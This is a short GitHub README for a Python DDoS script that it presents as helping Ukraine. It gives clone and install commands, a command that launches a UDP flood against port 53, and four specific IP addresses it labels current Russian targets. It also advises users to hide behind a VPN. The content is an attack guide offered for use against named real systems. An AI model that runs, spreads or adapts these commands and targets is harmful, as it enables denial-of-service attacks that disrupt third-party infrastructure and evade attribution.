 

<h1 align="center">DDoS Attack Script to help Ukraine</h1>

<em><h5 align="center">(Code Lang - Python 3)</h5></em>


<p align="center">You are advised to use a vpn! Please attack only russian websites.</p>





### Getting Started


**Clone and Install Script**

```console
git clone https://github.com/carlostkd/DoS_Attack.git
cd DoS_Attack
pip3 install -r requirements.txt
```

**Launch Script**



* Server/Home:
```console
python3 start.py udp <ip>:53 1 100
```

currently russian targets ips
```console
194.54.14.185:53
194.54.14.187:53
194.67.7.1:53
194.67.2.109:53
```






